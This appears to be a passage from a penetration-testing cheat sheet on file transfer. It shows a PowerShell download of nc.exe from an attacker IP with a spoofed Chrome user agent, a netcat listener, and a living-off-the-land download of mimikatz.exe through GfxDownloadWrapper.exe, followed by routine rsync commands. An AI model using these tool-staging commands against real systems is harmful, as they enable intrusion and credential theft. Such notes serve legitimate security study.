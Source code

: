 #### Request with Chrome User Agent
```PowerShell
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "C:\Users\Public\nc.exe"
```

#### Catch with Netcat
```Shell
nc -lnvp 80
```

### LOLBAS/GTFOBins

#### Transferring File with GfxDownloadWrapper.exe
```PowerShell
GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```

### Rsync

#### Copying files using rsync
```Shell
rsync -avz /home/cha0s/ cha0s@192.168.93.128:/home/cha0s/
```
#### Copying files w/ rsync to ignore previously existing files
```Shell
rsync -av --ignore-existing /source/directory/ /destination/directory/
```
#### Copying files w/ rsync to ignore previously existing files
```Shell
rsync -av --ignore-existing /source/directory/ /destination/directory/
```
#### Copying a directory w/ rsync
```Shell
rsync -avh --progress --ignore-existing user@remote_host:/path/to/source/ /path/to/destination/
```
